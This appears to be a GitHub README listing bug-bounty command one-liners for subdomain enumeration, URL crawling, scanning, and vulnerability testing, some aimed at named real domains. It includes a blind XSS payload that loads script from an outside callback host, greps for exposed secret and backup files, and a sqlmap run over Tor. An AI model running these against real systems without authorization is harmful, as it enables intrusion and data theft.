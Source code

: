 # Bug Bounty Hunting Terminal Commands

This repository contains a collection of terminal commands commonly used for bug bounty hunting.

## Subdomain Enumeration

```bash
# Find subdomains using Subfinder
subfinder -d viator.com -all -recursive > subdomain.txt

# Check for alive subdomains with specific ports
cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

## URL Discovery

```bash
# Discover URLs with Katana and filter useful file types
katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

# Search for specific file types in URLs
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
```

## JavaScript Files

```bash
# Extract JavaScript files and test for exposures
cat allurls.txt | grep -E "\.js$" >> js.txt
cat js.txt | nuclei -t /home/asshu/nuclei-templates/http/exposures/

# Directly scan JavaScript files from domain
echo www.viator.com | katana -ps | grep -E "\.js$" | nuclei -t /home/asshu/nuclei-templates/http/exposures/ -c 30
```

## Directory Bruteforcing

```bash
# Bruteforce common directory names
dirsearch -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js,.json
```

## Blind XSS Detection

```bash
# Detect blind XSS vulnerabilities with a payload
 subfinder -d flow.com | httpx-toolkit --silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/aswin></script>' -parameters
```

## Subdomain Takeover

```bash
# Run Subzy to detect subdomain takeovers
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
```

## CORS Misconfiguration

```bash
# Test for CORS misconfiguration
python3 corsy.py -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

## Vulnerability Scanning

```bash
# Run Nuclei templates against subdomains
nuclei -list subdomains_alive.txt -t /home/asshu/nuclei-templates/Priv8-Nuclei-Templates/
nuclei -list ~/vaitor/subdomains_alive.txt -tags cve,osint,tech
```

## Local File Inclusion (LFI) & Open Redirect

```bash
# Test for LFI vulnerabilities
cat allurls.txt | gf lfi | nuclei -tags lfi

# Test for Open Redirect vulnerabilities
cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect
```

## API, Development, and Staging Subdomains

```bash
# Filter API, development, and staging subdomains
subfinder -d target.com -silent | dnsprobe -silent | cut -d ' ' -f1  | grep --color 'api\|dev\|stg\|test\|admin\|demo\|stage\|pre\|vpn'
```

## Additional Subdomain Enumeration Techniques

```bash
# BufferOver, Riddler, and Web Archive methods for subdomains
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

## SQL Injection Detection

```bash
# SQL Injection testing with SQLMap
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor
```

## Port Scanning

```bash
# Port scanning with Naabu
naabu -l targets.txt -rate 3000 -retries 3 -warm-up-time 0 -rate 150 -c 50 -ports 1-65535 -silent -o out.txt
```

```bash
# Private template 
subfinder -d xyz.com -all  | nuclei -t crlf.yaml -rl 50
subfinder -d xyz.com -all  | nuclei -t openRedirect.yaml -rl 100
subfinder -d xyz.com -all  | nuclei -t iis.yaml
subfinder -d xyz.com -all  | nuclei -t cors.yaml -rl 100
subfinder -d xyz.com -all  | waybackurls | gf sqli | uro | nuclei -t errorsqli.yaml -rl 50
```

## License

This repository is licensed under the MIT License.
